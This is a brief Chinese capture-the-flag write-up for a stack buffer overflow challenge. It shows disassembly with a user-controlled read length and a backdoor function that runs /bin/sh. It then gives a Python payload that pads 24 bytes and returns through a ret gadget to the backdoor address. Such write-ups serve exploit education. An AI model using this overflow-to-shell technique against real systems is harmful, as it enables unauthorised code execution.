


查看防护，发现可以溢出

观察反汇编代码

~~~asm
00400787        puts(str: "[+]Please input the length of your name:")
0040079d        __isoc99_scanf(format: "%d", &var_c)
004007a7        puts(str: "[+]What's u name?")
004007c0        void buf
004007c0        read(fd: 0, &buf, nbytes: zx.q(var_c))

004006e6    int64_t backdoor()

004006ef        system(line: "/bin/sh")
004006fa        return 1

~~~

__isoc99_scanf没有限制输入长度，所以存在溢出空间并且read所需要的长度也是由我们自行输入，并且存在后门代码可以直接利用。

工具测出需要堆24字节

payload构造：

~~~python
p.sendline(b'40')
ret = 0x400561
payload = b'A'*16+b'B'*8+p64(ret)+p64(0x4006e6)
~~~

个人环境需要考虑栈对齐问题，所以需要添加ret，靶场环境不需要。